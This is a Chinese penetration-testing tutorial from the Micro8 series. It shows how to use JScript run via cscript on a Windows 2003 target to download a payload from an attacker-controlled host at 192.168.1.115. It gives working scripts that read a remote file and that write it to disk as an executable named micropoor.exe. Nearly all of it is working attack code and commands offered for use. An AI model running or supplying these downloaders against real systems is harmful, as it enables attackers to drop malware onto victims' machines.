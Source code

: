 ```yaml
---
title: 43、js一句话下载payload
date: 2019-09-21 19:05:12
comments: true
categories: 
 - Micro8系列
---
```



windows 全版本都会默认支持 js，并且通过cscript 来调用达到下载 payload 的目的。

**靶机：**windows 2003  

### 读取：
```code
C:\test>cscript /nologo downfile.js http://192.168.1.115/robots.txt
```  
![](../do/media/ac794b7eb3758d954dbf95912895dd41.jpg)

### 附代码：
```javascript
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
WScript.Echo(WinHttpReq.ResponseText);
```
### 写入：
```code
C:\test>cscript /nologo dowfile2.js http://192.168.1.115/robots.txt
```

![](../do/media/21081f49afc31e94235293e3337967b7.jpg)

### 附代码：
```javascript
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();

BinStream = new ActiveXObject("ADODB.Stream"); BinStream.Type = 1;

BinStream.Open(); BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile("micropoor.exe");
```

>后者的话：简单，易用，轻便。
>
>   Micropoor

